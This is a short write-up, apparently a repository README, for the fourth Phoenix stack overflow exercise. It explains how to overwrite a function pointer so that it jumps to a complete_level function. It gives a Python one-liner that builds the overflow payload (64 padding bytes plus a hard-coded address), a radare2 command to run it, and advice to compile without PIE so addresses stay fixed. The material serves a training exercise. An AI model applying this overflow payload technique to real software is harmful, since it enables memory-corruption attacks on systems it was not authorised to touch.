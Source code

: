 #Fourth Phoenix stack overflow challenge
##Challenge requires to override pointer 
(which then points to complete_level function)

Flag:
python -c 'print("A"*64+"\x62\x11\x40\x00")' > pattern.txt
r2 -r profile.rr2 -d a.out


*One thing to note is the PIE feature used by default that randomizes entrypoint of program
disable with:

gcc -no-pie stack_three.c


